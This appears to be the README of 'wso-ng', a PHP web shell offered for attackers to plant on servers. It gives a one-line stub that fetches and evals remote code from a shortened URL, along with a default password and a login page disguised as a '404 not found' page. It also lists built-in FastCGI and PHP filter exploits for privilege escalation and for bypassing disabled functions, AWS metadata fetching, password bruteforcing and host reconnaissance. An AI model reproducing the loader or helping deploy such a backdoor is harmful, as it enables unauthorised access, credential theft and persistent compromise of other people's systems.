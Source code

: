 # wso-ng
New generation of famous WSO web shell. With perks included
# default password is "root"
# changes
- can now hook password when loaded via stub `<?php eval(substr(file_get_contents('https://bit.ly/get-wso-ng?pass=ed78a48738eb97ffb5624741bdf391c3'), 5)); ?>`, and will use it instead of hardcoded one
- all subfile downloads are now cached in /tmp and zipped
- login page show natural site "404 not found" page. Just type password and press Enter, cuz password field hidden offscreen, but focused already.
- new breadcrumps navigation panel. Must be much more usefull.
- all files\dirs are now highlighted as their edit\view rights
- go to file\path right from breadcrumps field
- **add fastCGI exploit to auto-elevate & bypass disabled functions, when possible**
- **add php add-filter exploit to bypass disabled functions and gain console execution, when possible**
- ajax interaction now is default
- Ctrl+Enter on any field to Save\Run
- added "Fetch AWS metadata" command to bookmarks
- added hotlink to "Linux Exploit Suggester v2" by default.
- added VirusTotal integration, to autocheck IP reputation.
- added https://securitytrails.com integration, to show neighbors on same IP.
- added ip-info integration to show domains on same server
- added reverse ip check, to show real IP, and not local.
- added memory, cores and load average info to top bar.
- click on IP to copy it
- added list of open ports & sockets to *Sec. Info* section. Works ever if no console priveleges available, thru *fsock*.
- added support for phpRedis in *Sec. Info* section.
- reworked "Userful" section. Works thru limits of open basedir now.
- you can touch files right in file list of file manager now.
- fast copy name\path to clipboard by click.
- **neat syntax highlighting everywhere**.
- neat PHP code editing with autoindent support.
- default top1000 password list (https://bit.ly/top1kpass) in "Bruteforce" section. 
